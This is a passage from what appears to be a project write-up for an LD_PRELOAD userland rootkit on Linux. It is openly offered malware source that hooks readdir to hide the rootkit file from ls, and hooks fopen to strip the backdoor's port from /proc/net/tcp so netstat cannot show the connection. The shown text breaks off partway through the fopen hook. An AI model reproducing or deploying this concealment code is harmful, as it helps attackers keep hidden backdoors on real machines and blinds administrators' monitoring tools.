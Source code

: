 ```c
/* Hide from ls */
struct dirent *readdir(DIR *dirp) {
	struct dirent *(*real_readdir) (DIR *dir);
  	real_readdir = dlsym(RTLD_NEXT, "readdir");
	struct dirent *dir;
  
	/* finds file that doesn't contain rootkit.so */
	while (dir = real_readdir(dirp))
		if (strstr(dir->d_name, LIBRARY_FILENAME) == 0)
			break;

	return dir;
}
```

As you can see, our code just wraps the real `readdir` syscall, which gets the next directory entry given a directory pointer. However, our code continues calling this function to get the next entry, until it finds one that doesn't contain our rootkit's filename. This way `ls`, and any other utility reading the contents of a directory, will skip over our rootkit.

After including this in the rootkit, `ls` will work as normal, except that it will never output a trace of our `rootkit.so` file.

> Note: using `ls -ld rootkit.so` will still work as it uses a different system call to gather information about the file. This was helpful because it allowed us to ensure that the evasion feature was working.

#### netstat

Hiding from `netstat` is slightly more involved, however the approach is still pretty simple. `netstat` works by reading information from the special file `/proc/net/tcp` into a buffer and then writing/formatting its contents out to the terminal. The file `/proc/net/tcp` is a proc file that acts as a window into the operating system to gain information about active TCP connections.

Since `netstat`, has to read from this file, we can hook the `fopen` syscall used to read this proc file and filter out evidence of our backdoor TCP connections before returning the its contents to the user.

To achieve this, we read each line from `/proc/net/tcp`, and write it to a temporary file if it doesn't contain evidence of our backdoor (the port in this case). Then we just return a pointer to the temporary file, so that `netstat` will read from our clean dummy file as opposed to `/proc/net/tcp`.

```c
/* Hide from netstat */
FILE *fopen(const char *pathname, const char *mode)
{
	FILE *(*real_fopen)(const char *pathname, const char *mode);
	real_fopen = dlsym(RTLD_NEXT, "fopen");

	/* If file is not /proc/net/tcp, run fopen normally */
	/* /proc/net/tcp -> requests info about active tcp connections from the OS */
	if (strstr(pathname, "/proc/net/tcp") == NULL)
		return real_fopen(pathname, mode);

	/* Convert port to string */
	char S_BIND_PORT[6];
	itoa(BIND_PORT, S_BIND_PORT, 10);

	/* Create temporary file to store clean data */
	char line[256];
	FILE *temp = tmpfile();
	FILE *fp = real_fopen(pathname, mode);

	/* Copy each line from /proc/net/tcp, excluding lines containing backdoor port number */
	while (fgets(line, sizeof(line), fp))
	{
```
